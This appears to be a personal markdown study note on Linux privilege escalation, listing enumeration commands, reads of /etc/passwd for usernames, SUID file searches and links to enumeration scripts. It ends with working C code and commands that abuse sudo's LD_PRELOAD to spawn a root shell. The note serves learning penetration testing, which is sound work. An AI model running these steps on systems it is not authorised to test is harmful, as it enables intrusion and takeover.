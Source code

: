 # Enumeration
## Linux
**Commands:** \
`whoami` - gives the current user \
`hostname` - hostname of target machine \
`uname -a` - prints system information like OS and kernel version, hostname, system time, arch ... \
`ps` - show processes, `-a` or `-e` show all processes, `-axjf` shwo process tree \
`env` - show envirinment variables \
`sudo -l` - show what commands can be run as root with sudo \
`id` -shows user privileges and groups 

**Files** \
`/proc/version` - proc file system (procfs) gives more info about the kernel and istalled tool like compilers \
`/etc/issue` - system file, contains info about the OS \
`/etc/passwd` - shows users and other info, in this context we are only interested in the users \
`cat /etc/passwd | cut -d ":" -f 1` - cuts out only the users in passwd, can be used for brute force attacks

**Network** \
`ifconfig` \
`ip toute` \
`netstat` - shows info about existing communications \
>`-a` - shows all listening ports and established comms \
>`-at` / `-au` - lists TCP reso. UDP \
>`-l` - list ports in listening mode \
>`-s` - shows usage statistics by protocol, can be combiled with spesific protocol filters \
>`-p` - shows connections with service name and PID info, can also be combined with specific protocols \
>`-i` - shows interface statistics

**find** \
see [find](https://github.com/leeky-mem/linux-notes/blob/main/commands.md) for basics. For privilege escalation searching for specific permissions is important. \
`-perm mode` - mode can be u,g,o(i.e user,goup,other). In this mode permission bits must match exactly. `-perm o=w` matches onls file which have mode 0020. \
`-perm -mode` - matches all files wich have mode, but not exclusivly. \  
`find / -perm -u=s -type f 2>/dev/null` - find files with SUID bit set. SUID bit allows to run the file with the privilege level of the owner.

## Automated Enumeration
[LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - scrip .sh \
[LinEnum](https://github.com/rebootuser/LinEnum) - script .sh \
[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester) - script .sh \
[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) - script .sh \
[Linux Priv Checker](https://github.com/linted/linuxprivchecker) - script python or .sh

# Sudo
[GTFOBins](https://gtfobins.github.io/) a list of commands and binaries which can be abused to elevate privileges. \
`sudo -l` - show which commands the current user can use with sudo

## Abusing LD_PRELOAD
The `LD_PPRELOAD` environment option can be abused to spawn root shell with programs that can be executed with sudo.

The steps of this privilege escalation vector can be summarized as follows:

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Compile as a shared library: \
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

Run a program we can as root: \
`sudo LD_PRELOAD=/path/to/shell.so <sudoable program>`



